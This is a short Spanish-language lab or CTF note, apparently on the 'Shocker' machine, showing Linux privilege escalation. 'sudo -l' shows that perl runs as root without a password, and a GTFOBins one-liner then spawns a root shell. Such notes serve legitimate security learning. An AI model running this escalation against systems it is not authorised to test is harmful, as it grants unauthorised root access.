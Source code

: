 #sudo #sudo-l

--------
# Usamos los comandos [[sudo]]

------
# Enumeracion
Se ejecuta el comando
```shell
sudo -l
```

![[Shocker10.png]]
Y en este caso nos muestra que podemos ejecutar el binario de perl, con permisos de root sin contraseña




# Explotacion

Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios
```bash
sudo perl -e 'exec "/bin/sh";'
```

![[Shocker11.png]]
